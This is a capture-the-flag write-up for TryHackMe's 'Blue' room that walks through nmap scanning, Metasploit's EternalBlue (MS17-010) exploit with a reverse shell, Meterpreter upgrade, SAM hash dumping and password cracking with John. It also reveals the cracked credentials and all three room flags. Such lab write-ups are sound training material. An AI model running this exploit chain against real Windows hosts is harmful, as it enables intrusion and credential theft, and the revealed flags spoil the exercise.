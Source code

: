 # Blue

![tryhackme.com - © TryHackMe](tryhackme-logo-small.png)

## Room Info

> **Name**
>
> 🔗 [Blue](https://tryhackme.com/room/blue)
>
> ![](.gitbook/assets/blue.jpg)
>
> **Description**
>
> 📝 *Deploy & hack into a Windows machine, leveraging common misconfigurations issues.*
>
> **Target IP**
>
> 🎯 `10.10.177.175`

## Recon

```bash
nmap -p1-1000 10.10.177.175
nmap -sV -p445 10.10.177.175
nmap --script smb-vuln-ms17-010 -p445 10.10.177.175
```

## Exploitation

```bash
msfconsole -q
```

```bash
search ms17-010
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/shell/reverse_tcp
set RHOSTS 10.10.177.175
set LHOST 10.18.65.48
# LHOST = tun0 VPN interface IP
run

background # or CTRL+Z
```

![](.gitbook/assets/image-20230316134157848.png)

## Privilege Escalation

* Used payload was `windows/x64/shell/reverse_tcp`, so convert the shell to a `meterpreter` shell.

```bash
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
sessions
set SESSION 2
run
```

![](.gitbook/assets/image-20230316141128868.png)

```bash
sessions 5
getuid
	Server username: NT AUTHORITY\SYSTEM
ps
```

* My process may not run as `SYSTEM` user. Select a `PID` (process ID) with the `NT AUTHORITY\SYSTEM` user, and migrate my process to that one. `e.g.` 1284 - spoolsv.exe

```bash
migrate 1284
```

![](.gitbook/assets/image-20230316141809336.png)

## Post Exploitation

### Cracking

```bash
hashdump

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

<Username>:<User ID>:<LM hash>:<NT hash>:<Comment>:<Home Dir>:
```

`aad3b435b51404eeaad3b435b51404ee` is the LM hash for _**no password**_.

```bash
echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > jonhash.txt

john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt jonhash.txt
```

`ffb43f0de35be4d9917ac0cc8ad57f8d` is the NTLM hash for `alqfna22`.

Jon's credentials are `jon`:`alqfna22`.

![](.gitbook/assets/image-20230316142843628.png)

## Flags

* In the `meterpreter` session

```bash
cd C:\\
dir
cat flag1.txt
```



<details>

<summary>Reveal Flag1: 🚩</summary>



`flag{access_the_machine}`



<img src=".gitbook/assets/image-20230316143237356.png" alt="" data-size="original">

</details>



```bash
cd C:/Windows/System32/config
cat flag2.txt
```






<details>

<summary>Reveal Flag2: 🚩</summary>



`flag{sam_database_elevated_access}`



<img src=".gitbook/assets/image-20230316143502259.png" alt="" data-size="original">

</details>



```bash
cd C:\\Users\\
dir
cd Jon
cd Documents
cat flag3.txt
```



<details>

<summary>Reveal Flag3: 🚩</summary>



`flag{admin_documents_can_be_valuable}`



<img src=".gitbook/assets/image-20230316143807868.png" alt="" data-size="original">

</details>


***
